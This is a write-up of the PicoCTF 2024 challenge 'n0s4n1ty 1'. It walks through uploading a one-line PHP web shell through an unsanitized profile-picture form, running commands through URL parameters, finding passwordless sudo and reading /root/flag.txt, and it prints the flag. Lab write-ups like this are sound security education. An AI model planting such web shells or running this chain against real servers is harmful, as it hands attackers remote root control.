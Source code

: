 # **Write-Up: n0s4n1ty 1 (PicoCTF 2024)**  

## **Challenge Overview**  

In this challenge, a developer has implemented a **profile picture upload** feature on a website. However, the file upload mechanism is not properly secured, allowing for **arbitrary file uploads**. This presents an opportunity to upload a **malicious PHP script**, execute system commands, and ultimately retrieve the flag located in the `/root` directory.  

---

## **Hints and Initial Analysis**  

The challenge provides two key hints:  

1. **"File upload was not sanitized."**  
   - This suggests that the system does not properly validate uploaded files, meaning it might allow **arbitrary file execution**.  

2. **"Whenever you get a shell on a remote machine, check `sudo -l`."**  
   - This implies that **privilege escalation** might be possible once access to the system is obtained.  

---

## **Step 1: Exploring the Web Application**  

### **1. Accessing the Website**  
The challenge provides a URL:  

```
http://standard-pizzas.picoctf.net:51555/
```

Upon opening the page, a **profile picture upload** feature is available. This is a common place where **file upload vulnerabilities** are introduced if proper security measures are not in place.  

### **2. Testing File Upload Restrictions**  
To assess how the system handles uploads, a standard `.jpg` image was uploaded. Observing the response, it became clear that the system **stored the uploaded files without modifying their names**—an indication that an **arbitrary file upload attack** might work.  

---

## **Step 2: Exploiting the File Upload Vulnerability**  

Since the system does not properly validate uploads, a **malicious PHP web shell** can be uploaded to gain control over the server.  

### **1. Creating a Malicious Web Shell**  

A simple PHP shell script was created:  

```php
<?php system($_GET['cmd']); ?>
```

- This script takes an input parameter (`cmd`) from the URL and executes it as a system command.
- If executed successfully, commands such as `ls` or `whoami` can be run remotely.  

### **2. Uploading the Web Shell**  

The file (`shell.php`) was uploaded using the profile picture upload form.  

After uploading, the next step was to find the exact URL where the file was stored. Based on common upload directories, a few potential paths were tested:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php
http://standard-pizzas.picoctf.net:51555/images/shell.php
http://standard-pizzas.picoctf.net:51555/profile_pics/shell.php
```

After some testing, the correct path was identified, confirming that **the uploaded PHP shell was executable**.

---

## **Step 3: Remote Command Execution (RCE)**  

With the PHP shell in place, arbitrary system commands could be executed by appending them as parameters in the URL.  

### **1. Verifying Access to the Server**  
Executing the following command to list files in the current directory:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=ls
```

**Expected Output:**
```
1619046.png  shell.php
```

This confirmed **successful remote command execution (RCE)**.

### **2. Checking User Privileges**  
To determine the current user, the following command was executed:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=id
```

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The shell was running as **`www-data`**, a low-privilege web server user.

### **3. Checking for Sudo Permissions**  
Following the challenge hint, the next step was to check for **sudo permissions**:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20-l
```

**Output:**
```
User www-data may run the following commands:
    (ALL) NOPASSWD: ALL
```

This confirmed that **the `www-data` user had unrestricted sudo access**, meaning **full root control** could be obtained.

---

## **Step 4: Privilege Escalation and Retrieving the Flag**  

### **1. Switching to Root**  
Since the `www-data` user could execute any command as root **without a password**, it was possible to escalate privileges instantly:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20whoami
```

**Output:**
```
root
```

This confirmed **root access**.

### **2. Reading the Flag File**  
Since the flag was stored in `/root/flag.txt`, the following command was executed:  

```
http://standard-pizzas.picoctf.net:51555/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```

**Flag Output:**
```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

This successfully retrieved the flag, completing the challenge.

---
